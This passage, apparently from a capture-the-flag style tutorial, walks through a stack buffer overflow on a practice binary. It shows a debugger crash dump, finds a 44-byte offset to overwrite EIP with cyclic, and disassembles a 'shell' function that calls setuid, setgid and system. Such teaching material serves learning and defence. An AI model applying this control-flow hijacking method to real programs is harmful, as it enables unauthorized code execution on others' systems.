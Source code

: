 ```

─────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────
00:0000│ esp  0xffb1a5e0 ◂— 0xf700616d /* 'ma' */
01:0004│      0xffb1a5e4 —▸ 0xffb1a600 ◂— 0x1
02:0008│      0xffb1a5e8 ◂— 0x0
03:000c│      0xffb1a5ec —▸ 0xf753a637 (__libc_start_main+247) ◂— add    esp, 0x10
04:0010│      0xffb1a5f0 —▸ 0xf76d4000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
... ↓
06:0018│      0xffb1a5f8 ◂— 0x0
07:001c│      0xffb1a5fc —▸ 0xf753a637 (__libc_start_main+247) ◂— add    esp, 0x10
───────────────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────────────
 ► f 0 6161616c
   f 1 f700616d
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
Program received signal SIGSEGV (fault address 0x6161616c)
```

Now this is where some knowledge of assembly helps. It seems that in this case we're able to overwrite EIP, which is known as the instruction pointer. The instruction pointer tells the program which bit of memory to execute next, which in an ideal case would have the program run normally. However, since we're able to overwrite it, we can theoretically execute any part of the program at any time.

Recall the shell function from the source code, if we can overwrite EIP to point to the shell function, we can cause it to execute. This is also where the benefits of cyclic input show themselves. Recall that cyclic input goes in 4 character/byte sequences, meaning we're able to calculate exactly how many characters we need to provide before we can overwrite EIP.

Luckily cyclic provides this functionality with the -l flag, running cyclic -l {fault address} will tell us exactly how many characters we need to provide we can overwrite EIP.

Running `cyclic -l 0x6161616c` outputs 44, meaning we can overwrite EIP once we provide 44 characters of input.

That's all we needed for pre-explotation!


## Binary-Exploitaion: Manually

Previously we figured out that we need to provide 44 characters of input, and
then we can execute whatever part of the program we want. Now the next step is
to find out exactly where the shell function is in memory so we know what to set
EIP to. GDB supports this as well with the disassemble command. Type
`disassemble shell`, and this should pop up:

```
Dump of assembler code for function shell:
   0x080484cb <+0>:     push   ebp
   0x080484cc <+1>:     mov    ebp,esp
   0x080484ce <+3>:     sub    esp,0x8
   0x080484d1 <+6>:     sub    esp,0xc
   0x080484d4 <+9>:     push   0x3e8
   0x080484d9 <+14>:    call   0x80483a0 <setuid@plt>
   0x080484de <+19>:    add    esp,0x10
   0x080484e1 <+22>:    sub    esp,0xc
   0x080484e4 <+25>:    push   0x3e8
   0x080484e9 <+30>:    call   0x8048370 <setgid@plt>
   0x080484ee <+35>:    add    esp,0x10
   0x080484f1 <+38>:    sub    esp,0xc
   0x080484f4 <+41>:    push   0x80485d0
   0x080484f9 <+46>:    call   0x8048380 <system@plt>
   0x080484fe <+51>:    add    esp,0x10
   0x08048501 <+54>:    nop
   0x08048502 <+55>:    leave
```